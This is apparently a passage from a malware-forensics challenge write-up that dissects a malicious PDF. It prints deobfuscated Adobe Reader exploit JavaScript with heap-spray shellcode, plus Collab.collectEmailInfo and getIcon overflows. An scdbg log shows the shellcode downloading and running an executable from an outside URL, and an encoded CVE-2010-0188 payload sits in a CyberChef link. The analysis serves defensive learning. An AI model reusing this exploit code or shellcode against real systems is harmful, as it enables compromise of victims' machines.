        var shellcode = unescape("%uc931%u64b1%ub6bf%u558b%ud976%ud9cd%u2474%u58f4%ue883%u31fc%u0d78%u7803%ue20d%u6043%u2c45%u44e1%ub6af%u964c%ub72e%ued9a%u55a9%u1a18%u71cc%u2237%u7e30%u91b7%u1856%ue9ae%u2394%u7479%ucdff%u5e6b%ufc95%ue562%u12a2%u77ad%u53d8%u925f%u4178%ue5b2%ufc62%uf826%ub883%u9e2c%u6c59%uf5dd%u5d2a%uc113%uc7c1%ub031%u6cf7%ua2b6%u1838%u2007%u1d29%ua0b1%u0314%uaee1%ufbd8%u96df%ua80b%uc7cd%uca91%ubfab%u7091%uea13%u7a32%u7bb1%u5ba0%ue130%u3b9f%u8d42%ue4ba%u28a0%u4e20%u29d6%u0147%uf2cc%ucff0%uffb9%u2f62%uc948%u2904%ud333%ude69%u2b88%u10f3%u776b%uedee%uef80%u9fcf%u89c2%uc649%uf510%u36e3%u10fb%ud153%u40ef%u4d82%u41f6%ue4ae%u5cb1%uf58a%uaa78%u3472%u750f%u52e6%u712a%u9faf%u5fea%uc24a%u9cf3%u64f2%u0559%u5ecc%u7957%u0607%ue3a9%u828a%u26fc%uc2cc%u7f97%u1577%u2a0a%u9c21%u73c8%ube3e%u4838%uf571%u04de%uca4d%ue02c%u6126%u4c09%ucab8%u16cf%ueb5c%u3af3%uf869%u3ffd%u02b2%u2bfc%u17bf%u3214%u149e%u8f05%u0fff%uec38%u0df4%ue632%u5709%u0f5f%u481a%u6947%u7913%u5680%u864d%ufe94%u9652%uec98%ua8a6%u13b3%ub6c0%u39da%ub1c7%u1421%ub9d8%u6f32%udef2%u091c%uf4e9%ude69%ufd04%ud308%ud722%u1af7%u2f5a%u15f2%u2d5b%u2f31%u3e43%u2c3c%u26a4%ub9d6%u2921%u6d1c%uabe5%u1e0c%u059e%u8fa4%u3f0e%u3e4d%ucbaa%ud183%u5346%u40f5%ub4de%uf46f%uae52%u7901%u53fa%u1e82%uf294%u8d50%u9b01%u28cf%u50e5%ud262%ue195%u661d%u2003%ufeb8%ubcae");
		var mem_array = new Array();  
        this.googleBasicR = "";
        var cc = 0x0c0c0c0c;
        var addr = 0x400000;
        var sc_len = shellcode.length * 2;
        var len = addr - (sc_len + 0x38);
        var yarsp = unescape("%u9090%u9090");
        this.eS = "eS";
        yarsp = s(yarsp, len);
        var count2 = (cc - 0x400000) / addr;
        this.rF = false;
        this.p = "p";
        for (var count = 0; count < count2; count++) {
                mem_array[count] = yarsp + shellcode;
        }
        var bUpdate = new String(""); 
        var overflow = unescape("%u0c0c%u0c0c");
        var cP = function() {};
        this.gD = "";
        while (overflow.length < 44952) {
                this.tO = "";
                overflow += overflow; 
        }
        var adobeD = new String();
        this.collabStore = Collab.collectEmailInfo({
                subj: "",
                msg: overflow
        });
}
function updateE() {
        var xI = new String("");
        if (c.doc.Collab.getIcon) {   
                var arry = new Array();
				// cmd.exe payload
                var vvpethya = unescape("%ud3b8%u7458%ud901%u2bcb%ud9c9%u2474%ub1f4%u5a65%u4231%u0312%u1242%u3983%u96a4%u56f4%u0d45%u9bbd%ud7af%ue7f8%u982e%u1dcf%u7aa8%ucad5%u92cf%uf3c1%u9d2f%u4766%ufb49%u941e%uc494%u8389%uacfe%u6ad8%udd95%u0935%uf3a2%u801c%ub2d9%u488c%u2678%u0b5c%udd62%u01f4%u5b82%u4792%u4b5e%u2d2e%ubc2a%uf9ff%ue4c1%u9b9a%u83f7%ucc69%u3938%u1fb1%u7e29%uc50b%ue214%u8248%udcd8%ub3b7%u890b%ue425%uab91%u5210%u5192%uc8fc%u9932%u9def%ubaa1%u0795%u1c9f%uacee%uc5ba%u4b1c%uaf20%u0832%u3e47%u9129%uacf0%ude04%u1062%ue9e7%u0804%uf391%ubf69%ucc69%u71f0%u1108%uccee%u0d20%ubecf%ub462%ud949%u9971%u15e3%u3c5a%ub053%u5d89%u6c82%u6648%u07ae%u7ad2%u148a%ub09d%u1572%u1aab%u33e6%u5a91%ub8af%u4744%udd4a%u8b98%u47f2%u2af0%ub1cc%u03cf%u2707%ufe1e%ued8a%uca57%u23cd%u030e%u7277%u39bc%ubf21%u6423%udf3e%u5d93%uea71%u2a42%u2b4d%ud7b8%u0626%u7de4%ue9b8%ue771%uc85c%u0a82%u1f69%u2e8c%u1db2%u258c%u34bf%u2085%u359e%u98b7%u2cff%ue0a5%u6cf4%uf3c6%u7409%uf5ca%u6919%u60cd%u9a13%u4e19%ua74d%uf71c%ub952%uea11%ucba6%u0839%ud1c0%u2527%ud2c7%u10a5%ud8d8%u62bd%ufff2%u0b9a%uebe9%udfee%u1c04%ud389%u3622%u1d77%u4e5a%u177d%u4c5b%u21b3%u5f43%u31b9%u39a4%ubd2a%u4a21%u1291%uc8e5%u0389%u229e%ub43a%u5e0e%u24c3%ud4aa%ud71d%u7246%u4a4c%u53de%ufbf6%uc952%u7098%u72fa%u153a%u1594%ub5a8%ub801%u2057%u29e5%uc6f9%ud08e%u738b%u275f%u1e42%u22e7%u411a");
				var updateX = 39796;  
                var hWq500CN = vvpethya.length * 2;
                var len = 0x400000 - (hWq500CN + 0x38);
                var zAdobe = "";
                var yarsp = unescape("%u9090%u9090");
                var dU = "";
                yarsp = s(yarsp, len);
                this.zAdobeK = "";
                var p5AjK65f = (0x0c0c0c0c - 0x400000) / 0x400000;
                var aG = new Date();  
                for (var vqcQD96y = 0; vqcQD96y < p5AjK65f; vqcQD96y++) {
                        var lBasic = "";
                        arry[vqcQD96y] = yarsp + vvpethya;
                        var u = "";   
                }
                var iAlpha = function() {};
                var tUMhNbGw = unescape("	");
                while (tUMhNbGw.length < 0x4000) {
                        this.gN = false;
                        tUMhNbGw += tUMhNbGw;
                }
                var hV = new String("");
                var nVE = function() {};
                tUMhNbGw = "N." + tUMhNbGw;
                c.doc.Collab.getIcon(tUMhNbGw);
        }
        this.wZ = 44811;
}
var hO = new String("");

function nO() {
        this.iR = false;
        var version = c.viewerVersion.toString();
        var zH = '';
        version = version.replace(/D/g, '');
        var varsion_array = new Array(version.charAt(0), version.charAt(1), version.charAt(2));
        if ((varsion_array[0] == 8) && (varsion_array[1] == 0) || (varsion_array[1] == 1 &&
varsion_array[2] < 3)) {
                cN();
        }
        this.wN = "";
        var aQ = new String("");
        if ((varsion_array[0] < 8) || (varsion_array[0] == 8 && varsion_array[1] < 2 && varsion_array[2] <
2)) {
                gX();
        }
        var vEdit = "";
        if ((varsion_array[0] < 9) || (varsion_array[0] == 9 && varsion_array[1] < 1)) {
                updateE();
        }
        var eH = function() {};
        var eSJ = new Function();
        cG();
        var vUpdate = false;
}
var basicU = new Date();
this.updateO = false;
nO();
var mUpdate = function() {};?
```

This script contains several exploit components and multiple embedded shellcodes (for launching executables such as calc.exe, freecell.exe, cmd.exe, etc.).

Because the script contains many unescape("...") payloads, I used a custom Python extractor (extract_shellcode.py) to:

 - Scans the input JS file for occurrences of unescape("...") or unescape('...')
 - Extracts %uXXXX (UTF-16 code units) and %XX (single-byte) sequences in order
 - Converts %uXXXX -> two bytes in little-endian order (low byte, high byte)
   and %XX -> single byte
 - Writes each found payload to a separate binary file: payload_01.bin, payload_02.bin, ...
 - Prints filenames and byte lengths 

This gives us raw shellcode suitable for emulation

```python
#!/usr/bin/env python3

import re
import sys
import os
import argparse
from pathlib import Path

# Regex to find unescape("...") or unescape('...')
UNESCAPE_RE = re.compile(r'unescape\s*\(\s*(?P<q>["\'])(?P<body>.*?)(?P=q)\s*\)', re.DOTALL | re.IGNORECASE)

# Regexes to find %uXXXX and %XX tokens (in-order)
TOKEN_RE = re.compile(r'%u([0-9A-Fa-f]{4})|%([0-9A-Fa-f]{2})')

def decode_unescape_body(body):
    """
    Given a string body from unescape("..."), extract tokens in order and convert to bytes.
    - %uXXXX -> two bytes little-endian: low_byte, high_byte
    - %XX   -> one byte
    Any other characters are ignored (we only parse % tokens).
    Returns: bytearray
    """
    out = bytearray()
    for m in TOKEN_RE.finditer(body):
        ucode = m.group(1)
        byte2 = m.group(2)
        if ucode:
            val = int(ucode, 16)
            low = val & 0xff
            high = (val >> 8) & 0xff
            out.append(low)
            out.append(high)
        elif byte2:
            out.append(int(byte2, 16))
    return out

def find_unescape_bodies(js_text):
    """
    Returns list of extracted bodies (raw string inside unescape(...))
    """
    bodies = []
    for m in UNESCAPE_RE.finditer(js_text):
        body = m.group('body')
        bodies.append(body)
    return bodies

def main():
    parser = argparse.ArgumentParser(description="Extract shellcode payloads from PDF/JS unescape() strings to .bin files")
    parser.add_argument("input_js", help="Input JavaScript file to scan")
    parser.add_argument("--out-dir", "-o", default="extracted_shellcode", help="Output directory for .bin files")
    parser.add_argument("--min-bytes", type=int, default=4, help="Ignore payloads smaller than this many bytes")
    args = parser.parse_args()

    input_path = Path(args.input_js)
    if not input_path.exists():
        print(f"ERROR: input file not found: {input_path}", file=sys.stderr)
        sys.exit(2)

    out_dir = Path(args.out_dir)
    out_dir.mkdir(parents=True, exist_ok=True)

    js_text = input_path.read_text(errors='ignore')

    bodies = find_unescape_bodies(js_text)
    if not bodies:
        print("No unescape(...) occurrences found.")
        sys.exit(0)

    written = []
    for idx, body in enumerate(bodies, start=1):
        # decode tokens -> bytes
        payload_bytes = decode_unescape_body(body)

        # skip tiny payloads (likely not shellcode) if desired
        if len(payload_bytes) < args.min_bytes:
            print(f"Skipping payload #{idx}: {len(payload_bytes)} bytes (below threshold)")
            continue

        # Write binary file
        out_file = out_dir / f"payload_{idx:02d}.bin"
        with open(out_file, "wb") as f:
            f.write(payload_bytes)

        written.append((out_file, len(payload_bytes)))

    if not written:
        print("No payloads written (all below min size).")
        sys.exit(0)

    print("Wrote payloads:")
    for p, size in written:
        print(f" - {p}  ({size} bytes)")

if __name__ == "__main__":
    main()

```

Once executed:
````bash
remnux@remnux:~/malware$ python3 decode4.py --out-dir shellcode_folder stage3.js 
Skipping payload #11: 0 bytes (below threshold)
Wrote payloads:
 - shellcode_folder/payload_01.bin  (426 bytes)
 - shellcode_folder/payload_02.bin  (16 bytes)
 - shellcode_folder/payload_03.bin  (428 bytes)
 - shellcode_folder/payload_04.bin  (8 bytes)
 - shellcode_folder/payload_05.bin  (4 bytes)
 - shellcode_folder/payload_06.bin  (426 bytes)
 - shellcode_folder/payload_07.bin  (4 bytes)
 - shellcode_folder/payload_08.bin  (4 bytes)
 - shellcode_folder/payload_09.bin  (428 bytes)
 - shellcode_folder/payload_10.bin  (4 bytes)
````

This confirms that the exploit includes multiple separate shellcodes, with the real payloads likely being the larger 400+ byte ones.

To determine what each shellcode does, I used scdbg

```bash
remnux@remnux:~/malware$ scdbgc /f shellcode_folder/payload_01.bin 

Loaded 1aa bytes from file shellcode_folder/payload_01.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

401104	GetProcAddress(GetSystemDirectoryA)
401104	GetProcAddress(WinExec)
401104	GetProcAddress(ExitThread)
401104	GetProcAddress(LoadLibraryA)
4010af	LoadLibraryA(urlmon)
401104	GetProcAddress(URLDownloadToFileA)
4010d3	GetSystemDirectoryA( c:\windows\system32\ )
4010ec	URLDownloadToFileA(http://blog.honeynet.org.my/forensic_challenge/malware1.exe, c:\WINDOWS\system32\a.exe)
4010f3	WinExec(c:\WINDOWS\system32\a.exe)
4010f7	ExitThread(32)

Stepcount 7787

```

This shellcode performs several key actions:

- Loads urlmon.dll
- Resolves API calls, including:
    - URLDownloadToFileA
    - WinExec
    - GetSystemDirectoryA
- Downloads a remote executable:
    - http[:]//blog.honeynet.org.my/forensic_challenge/malware1.exe
- Drops it locally as:
    - c:\WINDOWS\system32\a.exe
- Executes the dropped file using WinExec
- Terminates the thread


✅ **Answer**: c:\WINDOWS\system32\a.exe

## 📌 Q10. The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?

In addition to the heap-spray and JavaScript exploitation chain analyzed previously, the PDF also embeds a second exploit leveraging CVE-2010-0188, a vulnerability in Adobe Reader’s TIFF parsing component.

This second exploit does not use JavaScript.
Instead, the malicious payload is hidden inside a Base64-encoded binary stream within the PDF.

Using [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)To_Hex('Space',0)Remove_whitespace(true,true,true,true,true,false)&input=U1VrcUFEZ2dBQUNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQXh5ZDNGdUZNc0dEYlpkQ1QwWDdGbU1VY1lnOGNFQTBjVTRxYkhDR3dDSytEMkszZnpkbitDYXBTRmVZbXhrb0Z0dmhReUM5aE5DZGJqeEJld2pRVHhWci9CaEczU3lCYWZrL2p5QlFFUmhhZThnNWpBZU1uL0hLeGdWVlNkdEdLSGg5SVJ1cXdSUW5wWTZvRHFYZEpCVThNR0RoczdjRGJKNzI1bVU1WFUwTlF3c0VwMHVsSWFaNXZYaHRKN3J5MTRJMTNMNTQ1emlBVkJhUkc5ajhSZVhHK25hY2JwM25DbW5TdExQbERPbDYwdDQ0QVMzS2NvQzRhOUZhWjJIckFSa1V5Z1JBMlY0RzBrSFB6VU5lZkxzWGRpa3FBU1NkSnMzZy8rQ1lKTy9MY2tPcVFPbi9DWVdFYktRa25DRzBZTEF2S2VzbFJwaTJKY2JaSjQva1h2VGpVenU1TUtpVUJqSWJUcytvb2dkNXNxVUpxcU9GNmY5VUpqaS9wWGNkWGRWR2dzQVU2ZlRUWlNyMFZMbDZKc1g0amtDRzY1NC9lT3h2R1JqZGIxVCtEb0huTUQ5M2xaQXZDRXR4djZuY0EzSGJtb0pEWE1QMEk5dHd4Z0Z4cDZtVzlSZFo1dFZJeUFmcE9ONStZekdteHArYzJqNjVGKzI4VUI3azEvcUo3MEMyUXdoWlJXb3hCMHdGU1I3MkxZUEpNbGZkY3l0ZTFDMnlLTG8xZkVOdVBsY2RoM1ZSUjc1QjZIQ1pIT0lwWThqNUNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtK